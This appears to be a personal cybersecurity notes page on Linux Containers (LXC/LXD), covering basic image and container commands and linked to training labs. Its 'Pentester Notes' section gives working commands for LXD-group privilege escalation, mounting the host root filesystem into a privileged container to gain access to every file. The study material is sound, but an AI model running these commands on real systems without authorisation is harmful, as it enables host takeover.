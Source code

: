 # Linux Containers (LXC)

[![linuxfundamentals](../../../../cybersecurity/_badges/htb/linuxfundamentals.svg)](https://academy.hackthebox.com/course/preview/linux-fundamentals)
[![linuxprivilegeescalation](../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![linuxsystemhardening](../../../../cybersecurity/_badges/thmp/linuxsystemhardening.svg)](https://tryhackme.com/room/linuxsystemhardening)
[![adventofcyber2](../../../../cybersecurity/_badges/thm/adventofcyber2/day24.svg)](https://tryhackme.com/room/adventofcyber2)

<div class="row row-cols-lg-2"><div>

[Linux Containers](https://linuxcontainers.org/) (LXC) is a Linux only virtualization method to run multiple Linux systems using the host Linux kernel.

[Docker](../docker/index.md) is built over LXC. It provides additional features and a simplified interface. They share the notion of 'image' and 'container'.

LXC can only be used on Linux hosts. Users part of the `lxd` group can call any commands without sudo. 

```shell!
$ lxd init
$ lxc image list # list downloaded images
```

If you have internet access, you can download an image:

```shell!
$ lxc launch ubuntu:22.04 container_name
```
</div><div>

Alternatively, you can import an image from a file. You can build an alpine image <small>(~3Mb)</small> using [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) <small>(0.1k ⭐, 2021 🪦)</small>.

```shell!
$ git clone https://github.com/saghul/lxd-alpine-builder
$ cd lxd-alpine-builder
$ sudo bash build-alpine
```

Transfer the generated tar.gz onto the target and use:

```ps
$ lxc image import xxx.tar.gz --alias image_name
```
</div></div>

<hr class="sep-both">

## Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### LXD Group Privilege Escalation

[![linuxprivilegeescalation](../../../../cybersecurity/_badges/hacktricks/linux_hardening/privilege_escalation/interesting_groups_linux_pe/lxd_privilege_escalation.svg)](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)
[![linuxprivilegeescalation](../../../../cybersecurity/_badges/htb/linuxprivilegeescalation.svg)](https://academy.hackthebox.com/course/preview/linux-privilege-escalation)
[![adventofcyber2](../../../../cybersecurity/_badges/thm/adventofcyber2/day24.svg)](https://tryhackme.com/room/adventofcyber2)
[![gamingserver](../../../../cybersecurity/_badges/thm-p/gamingserver.svg)](https://tryhackme.com/room/gamingserver)

A member of the LXD group can be leveraged for [privilege escalation](/cybersecurity/red-team/s4.privesc/index.md). You will mount the folder `/` within the container inside `/mnt/hostfs/` allowing you to access any file or edit any file.

* `image_name` is the name of the image you want to use
* `container_name` is a random name, such as `pwned`
* `device_name` doesn't matter, you can use `pwned` too

```shell!
host$ lxc init image_name container_name -c security.privileged=true
host$ lxc config device add container_name device_name disk source=/ path=/mnt/hostfs recursive=true
host$ lxc start container_name
host$ lxc exec container_name /bin/sh
container$ cd /mnt/hostfs/
```
</div><div>

</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```shell!
$ lxc image list
$ 
$ sudo apt-get install lxc lxc-utils -y
$ sudo lxc-create -n xxx -t yyy
$ lxc-ls
$ lxc-start/stop/restart -n xxx
$ lxc-config -n xxx -s storage/network/security
$ lxc-attach -n xxx [-f /path/to/share]
```
</div><div>
</div></div>